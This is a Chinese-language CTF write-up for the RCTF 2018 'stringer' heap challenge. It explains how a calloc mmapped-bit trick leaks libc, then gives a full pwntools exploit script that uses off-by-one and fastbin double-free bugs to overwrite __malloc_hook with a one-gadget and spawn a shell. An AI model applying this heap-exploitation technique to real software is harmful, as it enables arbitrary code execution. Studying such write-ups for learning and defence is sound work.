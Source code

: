 # RCTF stringer
## Author: fanda
&nbsp;&nbsp;&nbsp;&nbsp;<font size=2></font>老样子先贴一下我学习的**NBUSEC**队伍的wp[链接](https://github.com/sajjadium/ctf-writeups/blob/master/RCTF/2018/stringer/stringer_exploit.py)，诶刚起步只能多学习学习其他大佬的。</br>
&nbsp;&nbsp;&nbsp;&nbsp;<font size=2></font>这题保护全开，给的libc可以改写GOT，所以覆写\__malloc_hook不用多说，程序逆向分析一下发现明显存在off-by-one漏洞和double-free漏洞，当然还有UAF。这题主要难在calloc的行为会阻止我们泄露地址，不过，道高一尺魔高一丈:)</br>
&nbsp;&nbsp;&nbsp;&nbsp;<font size=2></font>通过观察[calloc](https://github.com/str8outtaheap/heapwn/blob/master/malloc/__libc_calloc.c)的源代码可以看到有这样一段：</br>

```C
 p = mem2chunk (mem);

  /* Two optional cases in which clearing not necessary */
  if (chunk_is_mmapped (p))
    {
      if (__builtin_expect (perturb_byte, 0))
        return memset (mem, 0, sz);

      return mem;
    }

  csz = chunksize (p);
```

&nbsp;&nbsp;&nbsp;&nbsp;<font size=2></font>意思就是说如果堆块被设置了mmaped标志位的话，calloc就不会把他初始化为0，那么mmaped标志位在哪呢？我们来看一下堆块头（取自[sploitfun](https://sploitfun.wordpress.com/2015/06/09/off-by-one-vulnerability-heap-based/)）：</br>

>prev_size – If the previous chunk is free, this field contains the size of previous chunk.</br>
>Else if previous chunk is allocated, this field contains previous chunk’s user data.</br>
></br>
>size : This field contains the size of this allocated chunk. Last 3 bits of this field contains flag information.</br>
>	&nbsp;&nbsp;&nbsp;&nbsp;PREV_INUSE (P) – This bit is set when previous chunk is allocated.</br>
>	&nbsp;&nbsp;&nbsp;&nbsp;IS_MMAPPED (M) – This bit is set when chunk is mmap’d.</br>
>	&nbsp;&nbsp;&nbsp;&nbsp;NON_MAIN_ARENA (N) – This bit is set when this chunk belongs to a thread arena.</br>
></br>
>fd – Points to next chunk in the same bin.</br>
>bk – Points to previous chunk in the same bin.


&nbsp;&nbsp;&nbsp;&nbsp;<font size=2></font>也就是堆块size中的第二个比特位，如果本来size是0x91,我们置了mmaped之后就是0x93(PREV_INUSE | IS_MMAPED)。然后就可以绕过置0，成功泄露地址了:)其他套路都差不多，所以直接放脚本了：</br>

Exploit脚本:
=======

```python
from pwn import *

DEBUG = 1

def add_string(size, content, is_attack=False):
    p.recvuntil('choice: ')
    p.sendline('1')
    p.recvuntil('please input string length: ')
    p.sendline(str(size))

    if not is_attack:
        p.recvuntil('please input the string content: ')
        p.send(content)
        p.recvuntil('your string: ')

def view_string(title):
    p.recvuntil('choice: ')
    p.sendline('2')
    p.recvuntil("don't even think about it")

def edit_string(index, offset):
    p.recvuntil('choice: ')
    p.sendline('3')
    p.recvuntil('please input the index: ')
    p.sendline(str(index))
    p.recvuntil('input the byte index: ')
    p.sendline(str(offset))

def delete_string(index):
    p.recvuntil('choice: ')
    p.sendline('4')
    p.recvuntil('please input the index: ')
    p.sendline(str(index))

def leak():

    add_string(24, 'a' * 24)        # 0 (32) fastbin_1
    add_string(128, 'b' * 128)      # 1 (144) smallbin_1
    add_string(24,  'c' * 24)       # 2 (32) fastbin_2

    delete_string(1)

    # its size changes from 0x91 to 0x93 (PREV_INUSE && IS_MMAPED)
    edit_string(0, 24)
    edit_string(0, 24)

    # smallbin_2 will be placed in smallbin_1's chunk
    add_string(128, 'd' * 7 + '\n') # 3 (144) smallbin_2

    # leak bk pointer of smallbin_1
    p.recvuntil('d' * 7 + '\n')
    return u64(p.recv(6) + '\x00\x00') - 0x3c4b78

def exploit(libc_base):

    # allocate two fastbins to launch the fastbin attack using double free
    add_string(96, 'e' * 96)        # 4 (112) fastbin_3
    add_string(96, 'f' * 96)        # 5 (112) fastbin_4

    delete_string(4)
    delete_string(5)
    delete_string(4)

    fake_chunk = libc_base + 0x3c4aed			# before __malloc_hook
    print 'Fake Chunk: {}'.format(hex(fake_chunk))
    add_string(96, p64(fake_chunk) + 'g' * 88)          # 6 (112) fastbin_5

    add_string(96, 'h' * 96)                            # 7 (112) fastbin_6

    add_string(96, 'i' * 96)                            # 8 (112) fastbin_7

    execve_addr = libc_base + 0xf02a4 			# oneshot address
    add_string(96, 'i' * 19 + p64(execve_addr) + '\n')  # 9 (112) fastbin_8

    add_string(1, '\n', True)

if __name__ == '__main__':
    if DEBUG == 1:
      p = process('./stringer')
    else:
      p = remote('stringer.2018.teamrois.cn',7272)

    libc_base = leak()
    print 'libc base: {}'.format(hex(libc_base))

    exploit(libc_base)

    p.interactive()

```

